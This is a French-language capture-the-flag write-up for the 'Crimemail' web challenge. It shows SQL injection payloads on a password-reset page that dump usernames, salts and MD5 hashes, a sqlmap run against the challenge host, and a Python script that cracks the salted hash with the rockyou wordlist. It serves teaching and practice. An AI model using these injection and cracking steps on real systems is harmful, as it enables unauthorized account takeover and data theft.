 ** Crimemail - WEB **

Enoncé :
```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.

Let's see if you can hack your way in his account...
```

![Alt](img/accueil.png "Accueil")

Sur la page ** forgot.php ** on trouve rapidement une injection SQL :

```
username = admin'
```

![Alt](img/detect.png "Detection")

On regarde si on peut l'exploiter facilement :
```
username = admin '||1#
```
![Alt](img/sqli.png "SQLI")

On récupère le nom de la base de données :

```
username = admin 'union select database()#
```

Resultat :

```
Here is the requested hint for this username:

array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(2) "db"
  }
}

```

Injection :

```
username= admin' UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema ='db'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(5) "users"
  }
}
```

Injection :

```
admin' UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns where table_schema ='db'#
```
Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(39) "userID,username,pass_salt,pass_md5,hint"
  }
}
```

Injection :

```
admin' UNION SELECT username FROM users#
```

Resultat :
```
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }

```

Injection :

```
admin' UNION SELECT pass_salt FROM users where username='c.hackle'#
```

Resultat :

```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(4) "yhbG"
  }
}
```

Injection :

```
admin' UNION SELECT pass_md5 FROM users where username='c.hackle'#
```
Resultat :
```
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(32) "f2b31b3a7a7c41093321d0c98c37f5ad"
  }
}
```

Sinon une variante avec sqlmap : 

```
sqlmap.py -u https://crimemail.ctf.insecurity-insa.fr/hint.php --data="username=C"
    
    Database: db
Table: users
[5 entries]
+--------+-----------------------------+-----------+----------------------------------+-----------+
| userID | hint                        | username  | pass_md5                         | pass_salt |
+--------+-----------------------------+-----------+----------------------------------+-----------+
| 1      | NULL                        | p.escobar | c4598aadc36b55ba1a4f64f16e2b32f1 | Jdhy      |
| 2      | NULL                        | g.dupuy   | 0fd221fc1358c698ae5db16992703bcd | Kujh      |
| 3      | NULL                        | a.capone  | 23afc9d3a96e5c338f7ba7da4f8d59f8 | hTjl      |
| 4      | NULL                        | c.manson  | fe3437f0308c444f0b536841131f5274 | YbEr      |
| 5      | I don't need any hints man! | c.hackle  | f2b31b3a7a7c41093321d0c98c37f5ad | yhbG      |
+--------+-----------------------------+-----------+----------------------------------+-----------+
``` 
    


Maintenant on cherche la correspondance du hash dans le dictionnaire rockyou :

```PYTHON

import hashlib

passlist = open("/home/ark1nar/tools/wordlists/rockyou.txt", 'r')
for password in passlist:
    m = hashlib.md5()
    m.update(password[:-1] + "yhbG")
    if m.hexdigest() == "f2b31b3a7a7c41093321d0c98c37f5ad":
        print 'FOUND:' + password


```

On trouve rapidement le mot de passe : pizza

FLAG :

```
UNKNOWN SENDER says:

Meet me at INSA{s3cr3t_l0cat10n}
```


By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
